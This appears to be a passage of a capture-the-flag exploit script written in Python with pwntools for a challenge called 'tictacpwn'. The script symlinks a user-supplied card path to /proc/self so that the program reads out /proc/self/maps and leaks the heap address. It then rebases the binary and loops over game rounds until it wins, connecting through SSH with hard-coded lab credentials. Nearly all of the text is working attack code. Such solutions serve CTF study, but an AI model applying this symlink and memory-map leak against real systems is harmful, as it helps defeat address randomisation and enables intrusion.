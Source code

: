 ```python
		sh.sendline(('ln -s /proc/self ' + CARD_PATH))
	else:
		os.symlink('/proc/self', CARD_PATH)

# Leak heap address
def load_card(p):
	p.recvuntil(b'Do you want to load a custom card for rock ?')
	p.sendline(b"y")

	p.recvuntil(b'Give me the path to the custom card:')

	create_card()
	p.sendline(b"/tmp/toto/maps")

	p.recvuntil(b'What do you pick ?')
	create_symlink()
	p.sendline(b"1")

	p.recvuntil(b'You chose rock !')
	maps = p.recvn(1000)

	addr_heap = int(re.findall(r"([abcdef\d]*)-[abcdef\d]*.*\n.*\[heap\]", maps)[0], 16)

	return addr_heap, maps

##########################################################################
##########################################################################
####################### LOAD CARD AND WIN THE GAME #######################
##########################################################################
success = False
while not success:
	if DEBUG:
		p = process(exe.path)
	else:
		ssh_session = ssh(host='ssh-zqmnmc.inst.malicecyber.com',user='user',password='user',port=4101)
		p = ssh_session.process('/challenge/tictacpwn')

	game_round = 1
	ADDR_HEAP, result = load_card(p)
	log.info('Heap address : ' + hex(ADDR_HEAP))

	# Rebase exe
	exe.address = ADDR_HEAP - 0x4000

	while EXIT_MESSAGE not in result and WIN_MESSAGE not in result:
		p.clean()
		p.sendline(b"1")
		result = p.recvuntil([WIN_MESSAGE, EXIT_MESSAGE, QUESTION_CHOICE_MESSAGE])
		game_round += 1

	success = WIN_MESSAGE in result
```
